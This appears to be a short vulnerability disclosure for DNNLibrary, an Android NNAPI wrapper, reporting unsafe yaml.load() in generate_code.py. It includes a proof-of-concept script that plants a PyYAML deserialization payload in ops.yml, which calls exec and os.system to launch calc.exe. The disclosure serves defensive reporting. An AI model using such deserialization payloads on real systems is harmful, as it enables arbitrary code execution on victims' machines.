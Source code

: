 ## ✍️ Description
DNNLibrary is a wrapper of NNAPI ("DNNLibrary" is for "daquexian's NNAPI library). It lets you easily make the use of the new NNAPI introduced in Android 8.1. You can convert your onnx model into daq and run the model directly.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
```
# vulnerable part of code
https://github.com/JDAI-CV/DNNLibrary/blob/master/generate_code.py#L329
Note :
to apply a complete fix please do fix all the yaml.load() in the functions mentioned in the main().
```
```python
# exploit.py
import os
#os.system("git clone https://github.com/JDAI-CV/DNNLibrary.git")
os.chdir("DNNLibrary/")
os.system("rm ops.yml")
payload = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open("ops.yml","w+").write(payload)
os.system("python3 generate_code.py")

```
